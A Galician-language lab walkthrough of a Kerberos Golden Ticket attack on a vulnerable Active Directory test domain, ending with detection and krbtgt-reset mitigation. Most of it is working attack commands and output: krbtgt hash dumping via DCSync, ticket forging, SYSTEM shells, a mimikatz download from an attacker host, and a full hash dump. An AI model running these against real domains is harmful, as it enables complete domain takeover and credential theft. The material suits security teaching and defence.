


Vector de Ataque: Golden Ticket (Persistencia Total no Dominio)
Fase: 5. Persistencia
Requisitos: Hash NTLM da conta krbtgt e o SID do dominio.
Descrición
Un Golden Ticket é un TGT (Ticket Granting Ticket) falsificado. A diferenza do Silver Ticket (que só da acceso a un servizo específico), o Golden Ticket require o hash da conta krbtgt e proporciona acceso completo e total a todo o dominio.
Vantaxes
- Acceso total ao dominio: Permite acceder a calquera recurso dentro do dominio Active Directory.
- Persistencia prolongada: O ticket falsificado pode configurarse cunha validez de ata 10 anos por defecto.
- Sigilo: Non require comunicación co DC (KDC) para crear o ticket, polo que é moi difícil de detectar.
- Suplantación de calquera usuario: Permite acceder como calquera usuario do dominio (incluíndo Administrador) sen coñecer o seu contrasinal real.
- Movemento lateral ilimitado: Proporciona acceso a todos os servizos e recursos do dominio.
- Resistencia a cambios de contrasinais: O Golden Ticket segue funcionando mesmo se cambian os contrasinais dos usuarios suplantados. Isto débese a que o ticket usa o hash de
krbtgtpara ser xerado e validado, non o hash do usuario suplantado.
Desvantaxes
- Requires privilexios elevados: Para obter o hash de
krbtgt, necesítase acceso de Administrador de Dominio ou privilexios de replicación (DCSync). - Detección por renovación: Os tickets con validez de 10 anos poden ser detectados mediante análise de logs de Kerberos (Event ID 4769 sen 4768 previo).
- Dependencia do hash de krbtgt: O Golden Ticket só é válido mentres o hash NTLM da conta krbtgt non cambie. Para invalidar un Golden Ticket, debe resetarse o contrasinal de
krbtgtdúas veces (xa que Active Directory almacena tanto o contrasinal actual como o anterior).
Explicación Visual do Ataque

O diagrama mostra como o Golden Ticket falsifica o TGT offline (omitindo as fases 1-2 do KDC), permitindo ao atacante usar ese TGT falsificado nas fases 3-6 para solicitar acceso a calquera servizo do dominio.
Diagrama de ataque

Conexión de Volta (Reutilizable) - Persistencia Real
Que significa a "Conexión de volta"?
No diagrama, a liña punteada vermella que vai desde a fase de persistencia de volta á configuración do ticket representa que o Golden Ticket pode reutilizarse indefinidamente durante a súa validez (10 anos).
Por que é importante?
Unha vez que o atacante ten o Golden Ticket gardado no ficheiro Administrador.ccache:
- Non precisa volver comprometer o dominio para acceder
- Non precisa volver executar as fases 1-2 de Kerberos (AS-REQ/AS-REP ao KDC)
- Usa directamente o TGT falsificado nas fases 3-6 de Kerberos (TGS-REQ/TGS-REP/AP-REQ/AP-REP)
- Pode usar o ticket unha e outra vez durante 10 anos
Fluxo de reutilización
"Primeira vez (Ataque completo)"
# Engadir entrada DNS (se non existe)
echo '192.168.56.100 VULN-DC-01.vuln-he.lab VULN-HE.LAB' | sudo tee -a /etc/hosts
# Fase1. Recopilación + Fase2. Análise: Obter hash de krbtgt e SID
impacket-secretsdump 'VULN-HE.LAB/Administrador:abc123.@192.168.56.100' -just-dc-user krbtgt
# Fase3. Explotación: Crear Golden Ticket
impacket-ticketer \
-nthash f8d660354307503cae5a4a735d110da0 \
-domain-sid S-1-5-21-1409906420-806768563-109815720 \
-domain VULN-HE.LAB \
Administrador
# Fase4. Post-Explotación: Acceder ao dominio
export KRB5CCNAME=Administrador.ccache
sudo ntpdate -u 192.168.56.100
impacket-psexec -k -no-pass VULN-HE.LAB/Administrador@VULN-DC-01.vuln-he.lab
# Fase5. Persistencia: Gardar ticket para persistencia
cp Administrador.ccache /tmp/golden_ticket_backup.ccache
"Reutilización (30 días despois)"
# Só cargar o ticket que xa tiñas gardado!
export KRB5CCNAME=/tmp/golden_ticket_backup.ccache
sudo ntpdate -u 192.168.56.100
# Acceso inmediato sen volver comprometer nada
impacket-psexec -k -no-pass VULN-HE.LAB/Administrador@VULN-DC-01.vuln-he.lab
"Reutilización (1 ano despois)"
# O ticket SEGUE funcionando despois dun ano!
export KRB5CCNAME=/tmp/golden_ticket_backup.ccache
sudo ntpdate -u 192.168.56.100
# Acceso inmediato
impacket-wmiexec -k -no-pass VULN-HE.LAB/Administrador@VULN-DC-01.vuln-he.lab
Isto é persistencia real porque funciona mesmo se:
| Cambio no dominio | Golden Ticket segue funcionando? |
|---|---|
| Cambiar contrasinal do usuario "Administrador" | ✅ SI (o ticket non usa o seu hash) |
| Instalar parches de seguridade | ✅ SI (non afecta ao ticket) |
| Cambiar regras de firewall | ✅ SI (Kerberos segue funcionando) |
| Cambiar contrasinais de outros usuarios | ✅ SI (non afecta a krbtgt) |
| Activar logs de auditoría | ✅ SI (moi difícil de detectar) |
🔑 Resetar contrasinal de krbtgt UNA vez |
✅ SI (AD garda o anterior) |
🔑🔑 Resetar contrasinal de krbtgt DÚAS veces |
❌ NON (única forma de invalidalo) |
Analoxía
É como ter unha chave mestra falsificada dun edificio:
- Non tes que volver forzar a porta (recomprometer)
- A chave funciona durante 10 anos
- Podes entrar e saír cando queiras
- A única forma de invalidala é cambiar todos os bombines (resetear krbtgt 2 veces)
Por que é tan perigoso?
Esta é unha das razóns polas que o Golden Ticket é considerado un dos ataques máis perigosos en Active Directory:
- Persistencia de longo prazo: 10 anos sen reinfección
- Silencioso: Non contacta co KDC, difícil de detectar
- Acceso total: Calquera recurso do dominio
- Reutilizable: Un compromiso → acceso indefinido
Procedemento Paso a Paso
Paso 1: Obtención do Hash NTLM da Conta krbtgt
Necesitamos o hash NTLM do usuario krbtgt que é utilizado polo KDC para asinar todos os TGTs do dominio.
Para conseguir o NTLM hash (tamén chamado RC4 Key no contexto de Kerberos) necesario para impacket-ticketer, temos varias opcións dependendo do nivel de acceso que teñamos no dominio ou dos ataques que xa teñamos realizados.
Opción 1: Credenciais de Administrador (Secretsdump)
Se xa temos comprometido un Administrador de Dominio (ver ATAQUE_LLMNR_RESPONDER) ou un usuario con privilexios de replicación como brais.t co SeBackupPrivilege explotado para ler o NTDS.dit (ver ATAQUE_SEBACKUP), podemos extraer todos os hashes.
1A. Con credenciais de admin:
1B. Con NTDS.dit extraído (vía SeBackupPrivilege):
Buscar na saída:
Buscar na saída a conta krbtgt:
O que nos interesa é a 4ª columna (nthash): f8d660354307503cae5a4a735d110da0
Nota: A conta
krbtgté unha conta especial de servizo de Active Directory que non caduca nunca por defecto.
Opción 2: Ataque DCSync con Mimikatz
Se temos privilexios de replicación no dominio (como brais.t con SeBackupPrivilege ou calquera Domain Admin), podemos usar o ataque DCSync para extraer o hash de krbtgt directamente do DC sen necesidade de acceder fisicamente aos ficheiros:
Na máquina atacante (vía evil-winrm):
Na máquina vítima (vía evil-winrm):
Descargamos mimikatz.exe:
Executamos mimikatz para realizar DCSync:
*Evil-WinRM* PS C:\Users\Administrador\Documents> .\mimikatz.exe "lsadump::dcsync /user:krbtgt" "exit"
Buscar na saída:
[DC] 'VULN-HE.LAB' will be the domain
[DC] 'VULN-DC-01.vuln-he.lab' will be the DC server
[DC] 'krbtgt' will be the user account
Object RDN : krbtgt
** SAM ACCOUNT **
SAM Username : krbtgt
Account Type : 30000000 ( USER_OBJECT )
User Account Control : 00000202 ( ACCOUNTDISABLE NORMAL_ACCOUNT )
Account expiration :
Password last change : 10/12/2025 18:30:45
Object Security ID : S-1-5-21-1409906420-806768563-109815720-502
Object Relative ID : 502
Credentials:
Hash NTLM: f8d660354307503cae5a4a735d110da0
ntlm- 0: f8d660354307503cae5a4a735d110da0
lm - 0: dce2ce9717d23dabe0925cc4d819022b
O hash NTLM de krbtgt é: f8d660354307503cae5a4a735d110da0
Opción 3: Impacket DCSync desde Linux
Alternativamente, podemos usar impacket-secretsdump con credenciais de admin para realizar DCSync directamente desde Linux:
Saída esperada:
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:f8d660354307503cae5a4a735d110da0:::
[*] Cleaning up...
Resumo
En calquera caso, o obxectivo é obter o hash NTLM de krbtgt: f8d660354307503cae5a4a735d110da0
Paso 2: Obtención do SID do Dominio
Necesitamos o identificador único do dominio. Podemos obtelo mediante mimikatz ou cun usuario básico (como brais.t).
Resultado:
Paso 3: Sincronización Temporal (Clock Skew)
Información sobre Kerberos Clock Skew
Que é Clock Skew?
Clock Skew refirese á diferenza de tempo entre o cliente e o servidor Kerberos (DC).
Límite por defecto:
- Máximo 5 minutos de diferenza
- Configurable en
MaxClockSkew(Group Policy)
Por que é importante?
- Prevención de replay attacks
- Os tickets Kerberos teñen timestamps
- Se a hora é moi diferente, os tickets son invalidados
Erro común:
Solución:
Debemos revisar a sincronización temporal co servidor de dominio para poder obter os tickets kerberos. Non debe existir un desfase de ±5 minutos.
CRÍTICO: Kerberos require sincronización temporal entre cliente e servidor (±5 minutos máximo)
Instalar ntpdate:
Verificar e sincronizar:
Saída esperada:
Wed Dec 10 11:16:59 AM UTC 2025
2025-12-10 10:03:58.174152 (+0000) -4381.436584 +/- 0.000433 192.168.56.100 s1 no-leap
CLOCK: time stepped by -4381.436584
Wed Dec 10 10:03:58 AM UTC 2025
Paso 4: Forxado do Golden Ticket
Usamos impacket-ticketer para crear un ticket que diga "Son o Administrador" válido para TODO o dominio.
sudo ntpdate -u 192.168.56.100
impacket-ticketer \
-nthash f8d660354307503cae5a4a735d110da0 \
-domain-sid S-1-5-21-1409906420-806768563-109815720 \
-domain VULN-HE.LAB \
Administrador
Parámetros:
-nthash: Hash NTLM dekrbtgt-domain-sid: SID do dominio-domain: Nome DNS do dominioAdministrador: Usuario que queremos suplantar
Diferenza clave co Silver Ticket: Non se especifica o parámetro
-spn, xa que o Golden Ticket é válido para todos os servizos do dominio.
Resultado: Créase un ficheiro Administrador.ccache.
[*] Creating basic skeleton ticket and PAC Infos
[*] Customizing ticket for VULN-HE.LAB/Administrador
[*] PAC_LOGON_INFO
[*] PAC_CLIENT_INFO_TYPE
[*] EncTicketPart
[*] EncTGSRepPart
[*] Signing/Encrypting final ticket
[*] Saving ticket in Administrador.ccache
Paso 5: Verificación do Ticket
Instalar ferramentas Kerberos:
Comprobamos o contido do ticket obtido:
Inspeccionar o ticket:
Saída esperada:
Ticket cache: FILE:Administrador.ccache
Default principal: Administrador@VULN-HE.LAB
Valid starting Expires Service principal
12/10/2025 10:12:41 12/08/2035 10:12:41 krbtgt/VULN-HE.LAB@VULN-HE.LAB
renew until 12/08/2035 10:12:41
Validez de 10 anos! (2025 → 2035)
Nota: O servizo principal ékrbtgt/VULN-HE.LAB, non un servizo específico como no Silver Ticket.
Paso 6: Uso do Ticket e Acceso ao Dominio
Cargamos o ticket na variable de entorno e podemos conectarnos a calquera servizo do dominio sen contrasinal.
Configurar entorno:
# Cargar o ticket
export KRB5CCNAME=Administrador.ccache
# Engadir entrada DNS (se non existe)
echo '192.168.56.100 VULN-DC-01.vuln-he.lab VULN-HE.LAB' | sudo tee -a /etc/hosts
Opción A: Acceso vía PSExec (Shell como SYSTEM)
sudo ntpdate -u 192.168.56.100;impacket-psexec -k -no-pass VULN-HE.LAB/Administrador@VULN-DC-01.vuln-he.lab
2025-12-10 23:28:13.090607 (+0000) -149300.548987 +/- 0.000956 192.168.56.100 s1 no-leap
CLOCK: time stepped by -149300.548987
CLOCK: time changed from 2025-12-12 to 2025-12-10
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies
[*] Requesting shares on VULN-DC-01.vuln-he.lab.....
[*] Found writable share ADMIN$
[*] Uploading file nsFVSjRS.exe
[*] Opening SVCManager on VULN-DC-01.vuln-he.lab.....
[*] Creating service iLcw on VULN-DC-01.vuln-he.lab.....
[*] Starting service iLcw.....
[!] Press help for extra shell commands
[-] Decoding error detected, consider running chcp.com at the target,
map the result with https://docs.python.org/3/library/codecs.html#standard-encodings
and then execute smbexec.py again with -codec and the corresponding codec
Microsoft Windows [Versi�n 10.0.17763.3650]
(c) 2018 Microsoft Corporation. Todos los derechos reservados.
C:\Windows\system32> whoami
nt authority\system
Conexión exitosa:
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies
[*] Requesting shares on VULN-DC-01.vuln-he.lab.....
[*] Found writable share ADMIN$
[*] Uploading file WFKqjelL.exe
[*] Opening SVCManager on VULN-DC-01.vuln-he.lab.....
[*] Creating service RoMJ on VULN-DC-01.vuln-he.lab.....
[*] Starting service RoMJ.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.6293]
(c) 2018 Microsoft Corporation. All rights reserved.
C:\Windows\system32> whoami
nt authority\system
Control total como NT AUTHORITY\SYSTEM conseguido!
Opción B: Acceso vía WMIExec
$ sudo ntpdate -u 192.168.56.100; impacket-wmiexec -k -no-pass VULN-HE.LAB/Administrador@VULN-DC-01.vuln-he.lab
2025-12-10 23:30:02.866684 (+0000) -149300.544071 +/- 0.000935 192.168.56.100 s1 no-leap
CLOCK: time stepped by -149300.544071
CLOCK: time changed from 2025-12-12 to 2025-12-10
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies
[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>whoami
vuln-he.lab\administrador
Opción C: Acceso vía SMBExec
$ sudo ntpdate -u 192.168.56.100; impacket-smbexec -k -no-pass VULN-HE.LAB/Administrador@VULN-DC-01.vuln-he.lab
2025-12-10 23:30:52.795623 (+0000) -149300.541471 +/- 0.000897 192.168.56.100 s1 no-leap
CLOCK: time stepped by -149300.541471
CLOCK: time changed from 2025-12-12 to 2025-12-10
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies
[!] Launching semi-interactive shell - Careful what you execute
C:\Windows\system32>whoami
nt authority\system
Opción D: Acceso a recursos compartidos (SMBClient)
$ sudo ntpdate -u 192.168.56.100; impacket-smbclient -k -no-pass VULN-HE.LAB/Administrador@VULN-DC-01.vuln-he.lab
2025-12-10 23:32:02.394480 (+0000) -149300.536785 +/- 0.001395 192.168.56.100 s1 no-leap
CLOCK: time stepped by -149300.536785
CLOCK: time changed from 2025-12-12 to 2025-12-10
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies
Type help for list of commands
# shares
ADMIN$
C$
IPC$
NETLOGON
SYSVOL
Resultado:
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies
Type help for list of commands
# shares
ADMIN$
C$
IPC$
NETLOGON
SYSVOL
# use C$
# ls
...
Opción E: Acceso a SQL Server
$ sudo ntpdate -u 192.168.56.100; impacket-mssqlclient -k -no-pass VULN-HE.LAB/Administrador@VULN-DC-01.vuln-he.lab
2025-12-10 23:32:57.089754 (+0000) -149300.537925 +/- 0.001155 192.168.56.100 s1 no-leap
CLOCK: time stepped by -149300.537925
CLOCK: time changed from 2025-12-12 to 2025-12-10
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies
[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(VULN-DC-01\SQLEXPRESS): Line 1: Changed database context to 'master'.
[*] INFO(VULN-DC-01\SQLEXPRESS): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (150 7208)
[!] Press help for extra shell commands
SQL (VULN-HE\Administrador dbo@master)> select system_user;
---------------------
VULN-HE\Administrador
Paso 7: Validación de Acceso como Domain Admin
Podemos verificar que temos privilexios de Domain Admin:
Mediante PSExec:
C:\Windows\system32> whoami
nt authority\system
C:\Windows\system32> whoami /groups | findstr "Domain Admins"
VULN-HE\Administradores del dominio Grupo S-1-5-21-1409906420-806768563-109815720-512 Grupo obligatorio...
Mediante WinRM (opcional):
Se queremos unha shell de WinRM en lugar de PSExec, podemos cambiar o contrasinal do Administrador primeiro:
Logo conectar vía WinRM:
Paso 8: Persistencia Adicional - DCSync
Unha vez temos acceso como Domain Admin mediante o Golden Ticket, podemos extraer de novo todos os hashes do dominio para crear máis Golden Tickets ou realizar outros ataques:
Ou mediante PSExec + Mimikatz:
C:\Windows\system32> powershell -c "IEX(New-Object Net.WebClient).DownloadString('http://192.168.56.113/mimikatz.exe')"
C:\Windows\system32> .\mimikatz.exe "lsadump::dcsync /all /csv" "exit" > hashes.txt
Diferenzas entre Golden Ticket e Silver Ticket
| Característica | Golden Ticket | Silver Ticket |
|---|---|---|
| Conta requerida | krbtgt |
Conta de servizo (ex: svc_sql) |
| Ámbito | Todo o dominio | Un servizo específico |
| Ticket forxado | TGT (Ticket Granting Ticket) | TGS (Ticket Granting Service) |
| Contacto co KDC | Non requirido para crear/usar | Non requirido para usar |
| Acceso | Calquera recurso do dominio | Só o servizo especificado no SPN |
| Validez típica | 10 anos (por defecto) | 10 anos (por defecto) |
| Invalidación | Resetar krbtgt dúas veces |
Cambiar contrasinal da conta de servizo |
| Detección | Difícil, pero posible por Event ID 4769 sen 4768 | Moi difícil, non pasa polo KDC |
| Privilexios requeridos | Domain Admin ou DCSync | Hash da conta de servizo |
Resumo
Duración e Validez do Ticket
Un Golden Ticket:
1. É un TGT falsificado que permite acceso persistente completo a todo o dominio durante anos.
2. Só depende do hash NTLM da conta krbtgt e non require contactar co KDC.
Puntos clave:
- Validez por defecto: 10 anos (2025 → 2035)
- O ticket xerado con
impacket-ticketerten, por defecto, validez de 10 anos - Os servizos do dominio non comproba o ticket co KDC, só verifican a firma baseada no NTLM de
krbtgt
O Ticket Permanece Válido Se:
- O hash de
krbtgtnon cambia, o ticket seguirá sendo válido durante toda a súa vida útil - O usuario finxido polo Golden Ticket existe dentro de Active Directory como usuario válido (desde novembro 2021)
O Ticket Inválídase Se:
- Se resetea o contrasinal de
krbtgtdúas veces consecutivas (→ cambia o NTLM hash) - Active Directory almacena tanto o contrasinal actual como o anterior de
krbtgt, polo que se require resetar dúas veces - Desactívase ou elimínase o usuario suplantado (desde novembro 2021)
Conseguimos:
- Golden Ticket → acceso total ao dominio
- PSExec/WMIExec/SMBExec → execución remota como
NT AUTHORITY\SYSTEM - Control total sobre todos os recursos do dominio
- Persistencia de 10 anos (a menos que se resetee
krbtgtdúas veces)
| Paso | Acción | Resultado |
|---|---|---|
| 1 | Obtención do hash NTLM de krbtgt |
f8d660354307503cae5a4a735d110da0 |
| 2 | Obtención do SID do dominio | S-1-5-21-1409906420-806768563-109815720 |
| 3 | Sincronización temporal (Clock Skew) | Diferenza < 5 minutos |
| 4 | Forxado de Golden Ticket | Administrador.ccache (válido 10 anos) |
| 5 | Verificación do ticket | Ticket válido 2025-2035 para krbtgt/VULN-HE.LAB |
| 6 | Acceso ao dominio con Kerberos | Conexión como NT AUTHORITY\SYSTEM |
| 7 | Validación de Domain Admin | Privilexios completos confirmados |
| 8 | Persistencia adicional (DCSync) | Control total e permanente do dominio |
Validez do Golden Ticket
O Golden Ticket pode configurarse con calquera validez que desexe o atacante:
- Por defecto:
impacket-ticketercrea tickets válidos durante 10 anos - Personalizable: Pódese especificar calquera duración con parámetros
-duration(horas de validez)
Exemplos:
# Ticket válido 10 anos (por defecto)
impacket-ticketer -nthash <hash> -domain-sid <SID> -domain VULN-HE.LAB Administrador
# Ticket válido 1 hora
impacket-ticketer -nthash <hash> -domain-sid <SID> -domain VULN-HE.LAB -duration 1 Administrador
# Ticket válido 100 anos
impacket-ticketer -nthash <hash> -domain-sid <SID> -domain VULN-HE.LAB -duration 876000 Administrador
Detección
Tickets con validez anormalmente longa (>24 horas) poden ser detectados mediante análise de logs (Event ID 4769).
Mitigación
Como invalidar un Golden Ticket INMEDIATAMENTE
Para invalidar todos os Golden Tickets existentes de forma inmediata, débese resetar o contrasinal de krbtgt dúas veces consecutivas SEN agardar:
Por que dúas veces consecutivas?
Active Directory mantén o historial dos últimos 2 contrasinais de krbtgt:
- Primeira vez: Cambia o contrasinal actual, pero o anterior segue válido → Golden Ticket SEGUE FUNCIONANDO
- Segunda vez (inmediata): Elimina completamente o contrasinal anterior → Golden Ticket INVALIDADO
Procedemento de invalidación inmediata:
# Primeiro reset (inmediato)
Reset-KrbtgtPassword -Domain vuln-he.lab
# Segundo reset (INMEDIATO, sen agardar)
Reset-KrbtgtPassword -Domain vuln-he.lab
Golden Ticket invalidado ao instante
Ao facer os dous resets consecutivos sen agardar, o Golden Ticket queda invalidado inmediatamente xa que Active Directory só mantén 2 contrasinais (actual + anterior). Ao cambiar dúas veces seguidas, elimínase o hash que o atacante usou para crear o ticket.
Procedemento con tempo de replicación (alternativa segura)
Se se desexa permitir tempo para replicación entre DCs en entornos grandes:
- Primeiro reset: Cambiar contrasinal de
krbtgt - Agardar 10 horas: Permitir replicación completa en todos os DCs
- Segundo reset: Cambiar contrasinal de
krbtgtde novo
Consideración importante
Durante as 10 horas de agarda, o Golden Ticket SEGUE FUNCIONANDO. Este método só se recomenda cando:
- Tes múltiples DCs con replicación lenta
- Prefires evitar problemas de replicación
- NON estás baixo un ataque activo
Se estás baixo ataque activo, resetea dúas veces inmediatamente sen agardar.
Impacto do reset
Importante - Interrupción de servizo
- Resetar
krbtgtunha soa vez NON invalida os Golden Tickets (AD segue aceptando o contrasinal anterior) - Resetar
krbtgtdúas veces consecutivas invalida:- ✅ TODOS os Golden Tickets
- ⚠️ TODOS os tickets Kerberos lexítimos de usuarios e servizos
- Despois do reset, todos os usuarios, servizos e aplicacións necesitarán volver autenticarse
- Poden producirse interrupcións temporais de servizo (SSO, aplicacións con contas de servizo, etc.)